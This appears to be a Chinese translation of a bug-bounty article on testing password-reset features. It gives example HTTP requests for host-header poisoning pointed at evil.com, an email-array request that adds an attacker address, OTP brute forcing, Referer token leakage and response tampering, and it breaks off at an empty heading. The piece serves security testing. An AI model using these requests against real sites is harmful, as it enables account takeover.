



https://sm4rty.medium.com/hunting-for-bugs-in-password-reset-feature-2021-3def1b391bef
## 前言

实现密码重置功能的常见方法:<br>
1.发送带有唯一 URL 的电子邮件以重置密码<br>
2.使用临时密码或当前密码发送的电子邮件<br>
3.询问私密问题，然后提供重置密码的选项<br>
4.使用 OTP（一次性密码）或多因素身份验证<br>

## 密码重置功能的利用
### 主机头中毒导致令牌泄露
1.攻击者修改请求的主机头(host header)，将目标的密码重置为自己的域。<br>

```
GET https://redacted.com/reset.php?email=foo@bar.com HTTP/1.1
host: evil.com
```
点击重置链接。由于该链接是由主机头组成的，所以它会链接到攻击者的网站。当目标访问此站点时，他们的密码重置令牌被发送给攻击者。攻击者现在使用他们的密码重置令牌重置目标的密码。<br>
https://hackerone.com/reports/182670  <br>
https://hackerone.com/reports/226659 <br>
https://hackerone.com/reports/698416 <br>

### 发送多个电子邮件而不是单个
在这种攻击中，攻击者可以通过发送一系列电子邮件地址而不是单个电子邮件地址来向任意电子邮件发送密码重置链接，这可能导致完全帐户接管。<br>
```
POST https://example.com/api/v1/password_reset HTTP/1.1
```

原始请求正文：
```
{“email_address”：“ xyz@gmail.com ”}
```

修改后的请求正文：
```
{“email_address”:[“ admin@breadcrumb.com ”,” attacker@evil.com ”]}
```

通过这种方式，密码重置链接会同时发送给受害者和攻击者。攻击者可以使用它来获得完全帐户接管。<br>
https://hackerone.com/reports/322985  <br>
https://twitter.com/HusseiN98D/status/1254888748216655872  <br>



### 暴力破解OTP重置密码。
现在，万一应用程序的密码重置功能基于 OTP 验证。许多程序接受无速率限制作为可接受的风险。所以，暴力破解 OTP 值得一试。<br>

您可以通过拦截 OTP 验证请求并暴力破解 6 位数字来重置帐户密码。使用它，可以通过更改用户数据和强制重置 OTP 来更改和重置任何帐户的密码。<br>



https://hackerone.com/reports/743545  <br>
https://hackerone.com/reports/280389  <br>

### 通过Referrer发现密码重置token

HTTP引用是一个可选的HTTP报头字段，它标识链接到所请求资源的网页的地址。Referer请求头包含指向当前请求页面的链接所跟随的前一个网页的地址。(就是从哪个链接来访问当前这个网页地址的)<br>
   

相关报告:<br>
https://hackerone.com/reports/342693<br>

### 用正常的响应来替代不正常的响应

例子:
有一个响应是这样的:
```
HTTP/1.1 401 Unauthorized
(“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”)
```

将其改为:
```
HTTP/1.1 200 OK
(“message”:”success”,”statusCode:200,”errorDescription”:”Success”)
```

相关阅读:
https://medium.com/@innocenthacker/how-i-found-the-most-critical-bug-in-live-bug-bounty-event-7a88b3aa97b3

### 如何拦截响应
